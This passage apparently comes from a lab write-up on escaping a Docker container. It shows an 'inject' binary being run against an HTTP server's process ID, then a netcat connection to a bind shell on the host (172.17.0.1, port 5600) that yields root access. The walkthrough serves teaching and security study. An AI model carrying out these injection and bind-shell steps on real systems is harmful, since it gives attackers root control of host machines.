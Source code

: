 * We will execute the compiled binary and pass it the pid of the HTTP Server as an argument.

```bash
./inject 19419
```

The binary executes successfully, now to connect to the bind shell we need the IP address of the host machine. From the ``ifconfig`` command we find the IP address of the docker host to be 172.17.0.2, therefore the host machine will have IP address ``172.17.0.1``.

So we will connect to the bind shell with netcat on port 5600 using the command:

```bash
nc 172.17.0.1 5600
```

![](./images/03/12.png)

* We have connected let's check the user id, we are uid=0, and on listing the root of the filesystem, we are on the host machine.
